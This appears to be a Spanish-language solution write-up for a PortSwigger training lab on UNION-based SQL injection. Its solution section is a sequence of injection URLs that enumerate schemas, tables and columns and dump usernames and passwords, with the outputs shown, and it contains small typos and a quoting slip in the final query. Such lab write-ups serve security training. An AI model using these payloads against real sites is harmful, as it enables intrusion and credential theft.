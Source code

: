 # `LAB`: SQL injection attack, listing the database contents on non-Oracle databases

## Descripción:

 This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user. 

### Oracle Cheastsheet:

- [PortSwigger - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


---

### Explicación:

- Muy similar a los laboratorios anteriores enfocados a diferentes RDBMS
- En este caso es llegar hasta el login con `adminsitrador`




## Solución:

````py
## Dumpear la base de Datos:
.web-security-academy.net/filter?category=-Pets' Union Select '1',schema_name FROM information_schema.schemata -- -
    # information_schema
    # public
    # pg_catalog

## Dumpear el Nombre de las Tablas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -
    # products
    # users_tcaine

## Dumpear el Nombre de las Columnas:
.web-security-academy.net/filter?category=-Pets' Union Select '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users_tcaine' -- -
    # password_wyuxxb
    # username_fzanak

## Dumpear los Datos
.web-security-academy.net/filter?category=-Pets' Union Select '1',concat(password_wyuxxb,' ::: ',username_fzanak) FROM 'users_tcaine' -- -
````
